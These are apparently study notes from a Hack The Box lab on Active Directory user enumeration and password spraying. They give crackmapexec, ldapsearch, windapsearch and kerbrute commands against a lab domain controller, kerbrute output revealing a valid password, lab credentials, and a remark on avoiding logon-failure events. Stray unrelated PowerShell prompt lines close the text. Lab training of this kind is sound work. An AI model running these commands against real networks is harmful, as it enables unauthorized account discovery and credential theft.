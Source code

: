 #### **Using CrackMapExec --users Flag**

* `crackmapexec smb 172.16.5.5 --users`

2️⃣ \*\*Gathering Users with LDAP Anonymous\*\*

#### **Using ldapsearch**

* `dollarboysushil@htb[/htb]$ ldapsearch -h 172.16.5.5 -x -b "DC=INLANEFREIGHT,DC=LOCAL" -s sub "(&(objectclass=user))" | grep sAMAccountName: | cut -f2 -d" "`

it is easier to use windapsearch

#### **Using windapsearch**

* `./windapsearch.py --dc-ip 172.16.5.5 -u "" -U`

3️⃣ \*\*Enumerating Users with Kerbrute ⭐\*\*

if we have no access at all from our position in the internal network, we can use `Kerbrute` to enumerate valid AD accounts and for password spraying. this tool uses Kerberos Per-Authentication, which is much faster and stealthier

this method does not generate Windows event ID or logon failure.

The tool sends TGT requests to the domain controller without Kerberos Pre-Authentication to perform username enumeration. If the KDC responds with the error `PRINCIPAL UNKNOWN`, the username is invalid.

* `kerbrute userenum -d inlanefreight.local --dc 172.16.5.5 /opt/jsmith.txt`

4️⃣ \*\*Credentialed Enumeration to Build our User List\*\*

Once we get valid credential, we can use various tools to build get the user from AD

* `sudo crackmapexec smb 172.16.5.5 -u htb-student -p Academy_student_AD! --users` → this will give the list of users

## **Spray Responsibly**

### **Internal Password Spraying - from Linux**

1️⃣ \*\*Using Kerbrute for the Attack ⭐\*\*

```
dollarboysushil@htb[/htb]$ kerbrute passwordspray -d inlanefreight.local --dc 172.16.5.5 valid_users.txt  Welcome1
    __             __               __
   / /_____  _____/ /_  _______  __/ /____
  / //_/ _ \/ ___/ __ \/ ___/ / / / __/ _ \
 / ,< /  __/ /  / /_/ / /  / /_/ / /_/  __/
/_/|_|\___/_/  /_.___/_/   \__,_/\__/\___/

Version: dev (9cfb81e) - 02/17/22 - Ronnie Flathers @ropnop

2022/02/17 22:57:12 >  Using KDC(s):
2022/02/17 22:57:12 >  	172.16.5.5:88

2022/02/17 22:57:12 >  [+] VALID LOGIN:	 sgage@inlanefreight.local:Welcome1
2022/02/17 22:57:12 >  Done! Tested 57 logins (1 successes) in 0.172 seconds
```


[ACADEMY-EA-DB01]: PS C:\Users\forend\Documents> Exit-PSSession
[ACADEMY-AEN-DEV01.INLANEFREIGHT.LOCAL]: PS C:\Users\backupadm\Documents> klist
[DEV01]: PS C:\Users\backupadm\Documents> klist